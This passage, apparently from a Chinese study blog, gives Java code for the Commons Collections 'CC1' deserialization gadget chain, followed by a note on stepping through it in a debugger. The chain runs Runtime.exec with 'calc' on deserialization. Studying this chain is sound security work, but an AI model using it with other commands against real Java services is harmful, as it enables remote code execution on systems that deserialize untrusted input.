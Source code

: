 ```java
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "godown");
        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);
        Constructor<?> AnnotationInvocationHandlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        AnnotationInvocationHandlerConstructor.setAccessible(true);
        Object annotationInvocationHandler = AnnotationInvocationHandlerConstructor.newInstance(Target.class, transformedMap);
        serialize(annotationInvocationHandler);
        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.bin")));
        oos.writeObject(obj);
        System.out.println("serialize");
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get(Filename)));
        Object obj = ois.readObject();
        System.out.println("unserialize");
        return obj;
    }
}
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709235653625.png)

### 调式复测

在反序列化出打上断点，一路步进就能看到完整过程。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240710110144246.png)
